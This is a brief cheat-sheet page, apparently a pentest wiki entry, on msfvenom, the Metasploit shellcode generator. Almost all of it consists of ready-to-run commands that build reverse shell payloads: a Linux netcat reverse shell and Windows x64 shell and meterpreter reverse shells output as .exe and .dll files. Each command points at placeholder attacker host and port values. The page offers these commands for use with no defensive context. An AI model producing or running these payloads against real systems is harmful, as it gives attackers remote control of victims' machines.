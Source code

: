 ```yaml
---
title: MSFVENOM
summary: A Metasploit module that generates shellcodes.
description: A Metasploit module that generates shellcodes.
---
```


**[https://github.com/rapid7/metasploit-framework/blob/master/msfvenom](https://github.com/rapid7/metasploit-framework/blob/master/msfvenom)**

## MSFVENOM Basis



## MSFVENOM Linux Reverse Shell


 > 
 > **<font color=red>msfvenom -p cmd/unix/reverse_netcat LHOST=</font>\[ATTACKER_OP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\]**</br>
 > Generate a Linux reverse shell.

## MSFVENOM Windows Reverse Shell


 > 
 > **<font color=red>msfvenom -p windows/x64/shell_reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f exe -o</font> shell<font color=red>.exe</font>**</br>
 > Generate a reverse shell exe.

 > 
 > **<font color=red>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f exe -o </font>shell<font color=red>.exe</font>**</br>
 > Generate a meterpreter reverse shell exe.

 > 
 > **<font color=red>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=</font>\[ATTACKER_IP\] <font color=red>LPORT=</font>\[ATTACKER_PORT\] <font color=red>-f dll -o</font> shell<font color=red>.dll</font>**</br>
 > Generate a meterpreter reverse shell DLL.

